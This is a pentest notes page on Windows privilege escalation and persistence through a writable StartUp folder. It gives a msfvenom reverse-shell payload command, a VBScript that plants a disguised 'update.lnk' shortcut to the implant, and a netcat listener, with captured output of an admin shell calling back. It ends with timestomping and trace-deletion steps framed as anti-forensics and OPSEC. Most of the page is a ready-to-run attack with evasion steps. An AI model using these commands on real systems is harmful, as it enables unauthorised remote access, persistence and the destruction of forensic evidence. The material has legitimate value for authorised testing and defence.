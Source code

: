# Living off the Land

One of the privilege escalation technique and so far the easiest ones to exploit it is Startup programs in the `StartUp` folder. Some versions of Windows operating systems vary to one another and it could be server or a workstation do a bit of research to find those locations and this technique is part of persistence mechanism to maintain access.

Windows Server 2012 or later

```
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
```

Windows 7 or later

```
C:\Users\%username%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

## 01 - Detect

TODO: Rewrite from command prompt to powershell

In command prompt:

```
C:\> icacls "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp BUILTIN\Users:(OI)(CI)(F)
                                                             WIN-QBA94KB3IOF\Administrator:(I)(OI)(CI)(DE,DC)
                                                             WIN-QBA94KB3IOF\admin:(I)(OI)(CI)(DE,DC)
                                                             NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
                                                             BUILTIN\Administrators:(I)(OI)(CI)(F)
                                                             BUILTIN\Users:(I)(OI)(CI)(RX)
                                                             Everyone:(I)(OI)(CI)(RX)
```

In powershell:

```
PS C:\> Get-ACL "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp" | Format-List AccessToString
```

## 02 - Exploit

TODO: Take note of the timestamp with powershell to clear traces

```
PS C:\> Get-Item CreateShortcut.vbs | Select-Object Name, CreationTime, LastWriteTime, LastAccessTime

PS C:\> Get-ItemProperty CreateShortcut.vbs | Select-Object Name, CreationTime, LastWriteTime, LastAccessTime
```

```
$ msfvenom -p windows/x64/shell_reverse_shell lhost=<IP> lport=53 -f exe -o implant.exe
```

We can copy the implant to the start up folder or we can create a shortcut link file to redirect the path of our implant.

```vbscript
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\update.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\path\to\implant"
oLink.Save
```

Execute the modified VBScript.

```
C:\> cscript CreateShortcut.vbs
Microsoft (R) Windows Script Host Version 5.812
Copyright (C) Microsoft Corporation. All rights reserved.
```

Launch the shell handler.

```
$ sudo nc -lvnp 53
```

Now we wait for the administrator user to login and wait for a callback connection.

```
$ xfreerdp /u:"<username>" /p:"<password>" /sec:<rdp | tls | nla> /v:<IP>

$ sudo nc -lvnp 53
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::53
Ncat: Listening on 0.0.0.0:53
Ncat: Connection from 10.10.221.80.
Ncat: Connection from 10.10.221.80:49882.
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
win-qba94kb3iof\admin
```

## 03 - Cleanup

Manually timestamp the dates.

```powershell
PS C:\> $file = "C:\path\to\CreateShortcut.vbs"
$creationtime = Get-Date "YYYY-MM-DD hh:mm:ss"
$lastwritetime = Get-Date "YYYY-MM-DD hh:mm:ss"
$lastaccesstime = Get-Date "YYYY-MM-DD hh:mm:ss"
Set-ItemProperty -Path $file -Name CreationTime -Value $creationtime
Set-ItemProperty -Path $file -Name LastWriteTime -Value $lastwritetime
Set-ItemProperty -Path $file -Name LastAccessTime -Value $lastaccesstime
```

Now the problem is through this netcat handler we can't revert back to it's original binary file. However, once you perform this technique use `metasploit-framework` as a shell handler since it is easily can be migrated to another process and to revert back just like I've previously demonstrated when covering your traces. Take this OPSEC measure into account.

```
C:\Windows\system32> del "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\update.lnk"

C:\Windows\system32> del /path/to/shell.exe
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x01 - Defense Evasion/11 - Anti-Forensics/Windows/Clear Traces/02 - Timestomps/Manual/Living off the Land|Windows: Timestomp]]
